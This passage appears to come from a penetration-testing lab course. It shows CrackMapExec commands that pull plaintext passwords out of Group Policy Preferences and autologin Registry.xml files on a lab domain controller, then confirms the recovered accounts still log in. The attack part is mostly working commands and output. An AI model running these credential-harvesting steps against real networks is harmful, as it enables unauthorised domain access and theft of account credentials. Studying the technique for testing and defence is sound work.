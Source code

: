 # Searching for Accounts in Group Policy Objects

Once we have control of an account, there are some mandatory checks we need to perform. Searching for credentials written in the `Group Policy Objects` (`GPO`) can pay off, especially in an old environment (Windows server 2003 / 2008) since every domain user can read the GPOs.

CrackMapExec has two modules that will search all the GPOs and find juicy credentials. We can use the modules `gpp_password` and `gpp_autologin`. The first module, `gpp_password`, retrieves the plaintext password and other information for accounts pushed through `Group Policy Preferences` (`GPP`). We can read more about this attack in this blog post [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288), and the second module, `gpp_autologin`, searches the Domain Controller for `registry.xml` files to find autologin information and returns the username and clear text password if present.

### **Password GPP**

```shell-session
$ crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_password

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
GPP_PASS... 10.129.203.121  445    DC01             [+] Found SYSVOL share
GPP_PASS... 10.129.203.121  445    DC01             [*] Searching for potential XML files containing passwords
GPP_PASS... 10.129.203.121  445    DC01             [*] Found inlanefreight.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
GPP_PASS... 10.129.203.121  445    DC01             [+] Found credentials in inlanefreight.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
GPP_PASS... 10.129.203.121  445    DC01             Password: Inlanefreight1998!
GPP_PASS... 10.129.203.121  445    DC01             action: U
GPP_PASS... 10.129.203.121  445    DC01             newName: 
GPP_PASS... 10.129.203.121  445    DC01             fullName: 
GPP_PASS... 10.129.203.121  445    DC01             description: 
GPP_PASS... 10.129.203.121  445    DC01             changeLogon: 0
GPP_PASS... 10.129.203.121  445    DC01             noChange: 1
GPP_PASS... 10.129.203.121  445    DC01             neverExpires: 1
GPP_PASS... 10.129.203.121  445    DC01             acctDisabled: 0
GPP_PASS... 10.129.203.121  445    DC01             userName: inlanefreight.htb\engels
```

### **AutoLogin GPP**

```shell-session
$ crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! -M gpp_autologin

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
GPP_AUTO... 10.129.203.121  445    DC01             [+] Found SYSVOL share
GPP_AUTO... 10.129.203.121  445    DC01             [*] Searching for Registry.xml
GPP_AUTO... 10.129.203.121  445    DC01             [*] Found inlanefreight.htb/Policies/{C17DD5D1-0D41-4AE9-B393-ADF5B3DD208D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 10.129.203.121  445    DC01             [+] Found credentials in inlanefreight.htb/Policies/{C17DD5D1-0D41-4AE9-B393-ADF5B3DD208D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 10.129.203.121  445    DC01             Usernames: ['kiosko']
GPP_AUTO... 10.129.203.121  445    DC01             Domains: ['INLANEFREIGHT']
GPP_AUTO... 10.129.203.121  445    DC01             Passwords: ['SimplePassword123!']
```

In our case, we found two accounts with two different passwords. Let's check if these accounts are still valid:

### **Credentials Validation**

```shell-session
$ crackmapexec smb 10.129.203.121 -u engels -p Inlanefreight1998!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\engels:Inlanefreight1998!
```

```shell-session
$ crackmapexec smb 10.129.203.121 -u kiosko -p SimplePassword123!
SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\kiosko:SimplePassword123!
```

Both accounts are still valid, and we can use them to authenticate to the domain, identify which privileges they have, or try to reuse those credentials.

